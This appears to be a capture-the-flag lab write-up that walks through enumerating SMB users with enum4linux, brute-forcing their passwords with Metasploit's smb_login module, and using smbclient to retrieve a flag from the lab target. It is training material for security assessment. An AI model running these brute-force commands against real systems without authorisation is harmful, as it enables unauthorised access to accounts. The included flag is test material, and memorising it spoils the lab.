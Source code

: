 # SMB Login Brute Force with Metasploit

## Challenge Title
Brute Force SMB Credentials and Extract a Flag

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Use enumeration and brute-force attacks to obtain SMB credentials. Then, access the authenticated share to extract a hidden flag.

---

## Tools Used

- `enum4linux` – for user enumeration
- `Metasploit` – for brute force with SMB login module
- `smbclient` – for accessing SMB shares

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Enumerate Users with `enum4linux`

We start by using `enum4linux` to enumerate valid users on the SMB service.

```bash
enum4linux -a target.ine.local
```
![Step 1](./7.png)

The tool successfully identified local users:
- `josh`
- `bob`
- `nancy`
- `alice`

![Step 1](./8.png)

### 🔹 Step : Launch Metasploit and Load SMB Login Module

```bash
msfconsole -q
use auxiliary/scanner/smb/smb_login
set RHOSTS target.ine.local
```
![Step 2](./1.png)

### 🔹 Step 3: Create a User Wordlist

Created `users.txt` with common usernames:
```bash
josh
bob
nancy
alice
```
![Step 3](./2.png)

### 🔹 Step 4: Set Wordlists in Metasploit
```bash
set USER_FILE users.txt
set PASS_FILE /root/Desktop/wordlists/unix_passwords.txt
run
```
![Step 4](./3.png)

### 🔹 Step 5: Valid Credentials Found
```yaml
josh : purple
```
![Step 5](./4.png)

### 🔹 Step 6: Access SMB Share Using `smbclient`
```bash
smbclient //target.ine.local/josh -U josh
```
Password: purple
```bash
ls
get flag2.txt
```
![Step 6](./5.png)

### 🔹 Step 7: View the Retrieved Flag
```bash
cat flag2.txt
```
Flag:
```wasm
FLAG2{a744a6f69c0747398f2648e10f32b8d4}
```
Also contains a hint for the next step:
Psst! I heard there is an FTP service running. Find it and check the banner.
![Step 7](./6.png)

## Conclusion
This challenge demonstrates how password spraying and brute-force attacks using Metasploit can help identify weak credentials on SMB services — which in real environments can lead to full network compromise.

## Files Included
- `users.txt`: Wordlist used for usernames
- `unix_passwords.txt`: Wordlist used for passwords
- Screenshots: 1.png → 6.png (steps of the challenge)
